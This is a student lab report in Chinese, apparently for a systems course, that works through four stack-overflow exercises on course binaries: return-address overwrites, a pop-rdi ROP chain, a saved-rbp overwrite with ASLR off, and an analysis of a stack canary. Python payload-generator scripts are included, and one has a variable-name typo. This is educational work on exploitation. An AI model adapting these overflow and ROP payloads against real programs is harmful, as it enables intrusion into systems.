




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
首先经过gdb查看地址我们不难发现，以下地址分别存储着以下字符串：

0x402014："Do you like ICS?"

0x402004："Yes!I like ICS!"

0x402045："You don't like it! You fail!"

而通过对各函数的分析，我们要在main函数打印0x402045之前，调用能打印0x402004处字符串的fun_1，所以我们应该用栈溢出攻击将func函数的返回地址改为func的返回地址即0x401216。

在func我们得知，最开始写的区域是rbp-8,返回位置存储在rbp+8，所以我们的padding=16，由于是小端排序func1_address=b"\x16\x12\x40\x00\x00\x00\x00\x00"

- **解决方案**：
```python
padding = b"A" * 16
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + func1_address

with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload generated in ans1.txt")
```
- **结果**：


### Problem 2:
- **分析**：
这个题目的关键难点在于：
```c
  401216:	f3 0f 1e fa          	endbr64
  40121a:	55                   	push   %rbp
  40121b:	48 89 e5             	mov    %rsp,%rbp
  40121e:	48 83 ec 10          	sub    $0x10,%rsp
  401222:	89 7d fc             	mov    %edi,-0x4(%rbp)
  401225:	81 7d fc f8 03 00 00 	cmpl   $0x3f8,-0x4(%rbp)
  40122c:	74 1e                	je     40124c <func2+0x36>
```
这个题目我提供两种解决方案：

1. 直接绕过这段代码
通过读取汇编我们发现，我们只要通过func中的memcpy@plt函数，修改func的返回地址，让他直接跳转到0x40124c，就可以绕过这一段打印出来我们想要的

2. 不绕过代码，但是填充%edi使他等于0x3f8然后顺利跳转到0x40124c
也就是我们需要通过func中的memcpy@plt函数，修改func的返回地址，让他跳到func_2的开头，同时修改参数%rdi为$0x3f8。

由于有NX保护的存在，在栈上我们不难直接写程序运行修改rdi，但是我注意到pop_rdi可以帮我们实现对rdi的修改。
```c
  4012c7:	5f                   	pop    %rdi
  4012c8:	c3                   	ret
```
所以我们只需要先跳转到4012c7并且保证跳转后栈顶存的是$0x3f8即可

所以我们的Payload应该是：
[16*'A'] + [0x4012c7] + [0x3f8] + [0x401216]

- **解决方案**：
方法1：
```py
padding = b"A" * 16
func2_address = b"\x4c\x12\x40\x00\x00\x00\x00\x00"  # 小端地址
payload = padding+ func12_address

with open("ans2_1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans2_1.txt")
```
方法2
```py
import struct

padding = b"A" * 16

gadget_addr = struct.pack("<Q", 0x4012c7)
cookie = struct.pack("<Q", 0x3f8)
func2_start = struct.pack("<Q", 0x401216)
payload = padding + gadget_addr + cookie + func2_start

with open("ans2_2.txt", "wb") as f:
    f.write(payload)

print("Payload written to ans2_2.txt")
```
- **结果**：

### Problem 3: 
- **分析**：
同样这个题类似于问题2，我们可以有两种方法：
1. 跳过上面的判等直接跳转到func1后面的打印
但是problem3和problem2存在一个很大的区别：

problem3在调用的时候，我们会向栈中写入，而在func里面在调用了leave指令，我们所以我们不可以随意地覆盖栈里面原先存储RBP的位置，否则可能出现rbp和rsp所指向的栈空间是不可写的段

所以我们需要关闭随机化地址，保证覆盖原先rbp的值会指向一段合法可写的栈的段。

而由于我们是从rbp - 0x20开始写所以我们需要的padding=32

- **解决方案**：
```py
padding = b"r" * 32
rbp=b"\x00\xcd\xff\xff\xff\x7f\x00\x00" 
func1_address = b"\x2b\x12\x40\x00\x00\x00\x00\x00"  
payload = padding+rbp+ func1_address

with open("ans3.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans3.txt")
```
- **结果**：


### Problem 4: 
- **分析**：
这道题要得到答案很简单，前面的两次输入不影响最终的结果，我们只需要保证第三次可以让func顺利调用输入可以，这里会%eax与0xfffffffe进行无符号数的比较，并不断对-0x18(%rbp)进行-1，所以只有当输入为-1，存在-0x18(%rbp)里面的值变成1，调用func1。

canary的保护机制:
设置金丝雀的值：
```c
    136c:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
    1373:	00 00 
    1375:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
    1379:	31 c0                	xor    %eax,%eax
```
运行完在函数的结尾查看金丝雀值是否被修改，如果被修改则调用stack_chk_fail，防止攻击：
```c
    140a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
    140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
    1415:	00 00 
    1417:	74 05                	je     141e <func+0xc1>
    1419:	e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt>
```

- **解决方案**：
保证前两次输入为字符串，第三次为-1

- **结果**：


## 思考与总结
感觉这个lab确实很有趣，但是似乎我的Problem3有点逃票的感觉，应该是有需要调用那几个函数然后修改寄存器让他可以不用跳过前面那些判断也能解决的办法，但是我没太想出来，问了AI他给了一种用Shellcode解决的办法，但是不是我自己想的就没写进报告。

总之，gets(),strcpy(),scanf("%s"),memcpy()等函数需要小心使用！

不然attack我的就不一定是我这种baby attacker了......
## 参考资料
Gemini